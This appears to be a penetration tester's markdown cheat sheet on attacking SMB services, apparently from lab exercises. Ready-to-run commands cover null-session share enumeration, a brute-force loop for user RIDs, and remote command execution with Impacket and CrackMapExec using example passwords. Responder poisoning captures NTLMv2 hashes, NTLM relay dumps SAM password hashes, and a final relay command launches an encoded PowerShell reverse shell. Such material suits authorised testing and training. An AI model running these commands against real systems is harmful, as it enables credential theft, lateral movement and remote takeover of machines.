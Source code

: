 #### Ports
* TCP 139 and UDP 137, 138
* TCP 445
#### Download all
```
smbclient  \\\\10.129.51.87\\Replication -c 'prompt; recurse; mget *'
```
#### Anon auth (null-session)
Most tools that interact with SMB allow null session connectivity, including `smbclient`, `smbmap`, `rpcclient`, or `enum4linux`
```bash
# -N - use null session
smbclient -N -L //10.10.14.222/
```
#### Alternative to smbclient
```bash
git clone https://github.com/SecureAuthCorp/impacket.git
```

```bash
python psexec.py username:password@hostIP
```
##### Enumerate SMB users
 ```bash
 lookupsid.py guest@10.10.11.222 -no-pass
 ```
#### smbmap
```bash
# list shared and permissions
smbmap -H 10.10.216.209

# browse files and directories recursive
smbmap -H 10.10.216.209 -r

# download
smbmap -H 10.129.14.128 --download "notes\note.txt"
# upload 
smbmap -H 10.129.14.128 --upload test.txt "notes\test.txt"
```
#### SMBclient
```bash
smbclient //10.10.216.209/anonymous

get logs/log1.txt
put local.txt
```
auth as user:
```bash
smbclient -U milesdyson //10.10.216.209/milesdyson
```
list shared folders:
```bash
smbclient -L \\\\10.10.18.79
```
connect and download:
```bash
λ kali ~ → smbclient  \\\\10.10.18.79\\Users
Password for [WORKGROUP\root]:
Try "help" to get a list of possible commands.
smb: \> get gakeeper.exe
```
footprint samba
```shell
sudo nmap 10.129.14.128 -sV -sC -p139,445
```
#### RPCclient - Enumeration
```shell
rpcclient -U "" 10.129.14.128

# null-session
rpcclient -U'%' 10.10.110.17
```

|                           |                                                                    |
| ------------------------- | ------------------------------------------------------------------ |
| `srvinfo`                 | Server information.                                                |
| `enumdomains`             | Enumerate all domains that are deployed in the network.            |
| `querydominfo`            | Provides domain, server, and user information of deployed domains. |
| `netshareenumall`         | Enumerates all available shares.                                   |
| `netsharegetinfo <share>` | Provides information about a specific share.                       |
| `enumdomusers`            | Enumerates all domain users.                                       |
| `queryuser <RID>`         | Provides information about a specific user.                        |
| querygroup<br>            |                                                                    |
|                           |                                                                    |
|                           |                                                                    |
#### ENUM4LINUX 
```bash
./enum4linux-ng.py 10.129.14.128 -A -C
```
#### [[Brute Force]] User RIDs
```bash
for i in $(seq 500 1100);do rpcclient -N -U "" 10.129.14.128 -c "queryuser 0x$(printf '%x\n' $i)" | grep "User Name\|user_rid\|group_rid" && echo "";done
```
#### Other related tools:
https://github.com/SecureAuthCorp/impacket [samrdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/samrdump.py).
https://github.com/byt3bl33d3r/CrackMapExec
# Mount share folder
```bash
sudo mount -t cifs -o username=htb-student,password=Academy_WinFun! //ipaddoftarget/"Company Data" /home/user/Desktop/
```
```bash
sudo apt-get install cifs-utils
```
# RCE
* Impacket PsExec
* Impacket SMBExec -  similar approach to PsExec without using RemComSvc.
* Impacket atexec
* CrackMapExec - includes an implementation of smbexec and atexec.
* Metasploit PsExec
#### #Impacket:
```bash
impacket-psexec administrator:'Password123!'@10.10.110.17

C:\Windows\system32>whoami && hostname
```
The same options apply to impacket-smbexec and impacket-atexec.
#### #CrackMapExec
```bash
crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec

# Enumerating Logged-on Users
crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users
```
#### Forced Authentication Attacks
We can also abuse the SMB protocol by creating a fake SMB Server to capture users' [NetNTLM v1/v2 hashes](https://medium.com/@petergombos/lm-ntlm-net-ntlmv2-oh-my-a9b235c58ed4).
```bash
sudo responder -I ens33

[+] Listening for events... 

[*] [NBT-NS] Poisoned answer sent to 10.10.110.17 for name WORKGROUP (service: Domain Master Browser)
[*] [NBT-NS] Poisoned answer sent to 10.10.110.17 for name WORKGROUP (service: Browser Election)
[*] [MDNS] Poisoned answer sent to 10.10.110.17   for name mysharefoder.local
[*] [LLMNR]  Poisoned answer sent to 10.10.110.17 for name mysharefoder
[*] [MDNS] Poisoned answer sent to 10.10.110.17   for name mysharefoder.local
[SMB] NTLMv2-SSP Client   : 10.10.110.17
[SMB] NTLMv2-SSP Username : WIN7BOX\demouser
[SMB] NTLMv2-SSP Hash     : demouser::WIN7BOX:997b18cc61099ba2:3CC46296B0CCFC7A231D918AE1DAE521:0101000000000000B09B5
```
If we cannot crack the hash, we can potentially relay the captured hash to another machine using impacket-ntlmrelayx https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py or Responder MultiRelay.py https://github.com/lgandx/Responder/blob/master/tools/MultiRelay.py Let us see an example using impacket-ntlmrelayx.

First, we need to set SMB to OFF in our responder configuration file (/etc/responder/Responder.conf).
```basg
cat /etc/responder/Responder.conf | grep 'SMB ='

SMB = Off
```

```bash
impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146
<SNIP>
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:92512f2605074cfc341a7f16e5fabf08:::
demouser:1000:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
test:1001:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
[*] Done dumping SAM hashes for host: 10.10.110.146
```
Create reverse shell:
```bash
impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c 'powershell -e <reverse shell payload in base64>'
```